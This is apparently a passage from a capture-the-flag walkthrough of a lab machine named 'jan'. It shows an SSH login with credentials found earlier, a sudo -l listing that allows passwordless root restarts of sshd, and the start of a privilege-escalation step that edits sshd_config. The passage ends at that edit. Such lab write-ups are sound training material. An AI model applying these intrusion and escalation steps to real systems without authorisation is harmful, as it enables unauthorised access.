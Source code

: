 **Key points:** 
- The credentials were revealed to us, which we will use to access by ssh

```bash
❯ ssh ssh@192.168.0.106
ssh@192.168.0.106's password: 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

jan:~$ 
```

**FLAG 1:**

```bash
jan:~$ ls
user.txt
```

Now, we list the existing permissions:

```bash
jan:~$ sudo -l 
Matching Defaults entries for ssh on jan:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ssh:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ssh may run the following commands on jan:
    (root) NOPASSWD: /sbin/service sshd restart
```

**Key points:** 
- `/sbin/service sshd restart`:  This command does not require root permissions to use it.
`
## Privilege Escalation

We can take advantage of this command, so that by editing `/etc/ssh/sshd/sshd_config` we can modify certain restrictions and escalate privileges:

### Step 1: Edit `/etc/ssh/sshd_config`

For that, we will use `vi` application:

```bash
jan:~$ vi /etc/ssh/sshd_config
```
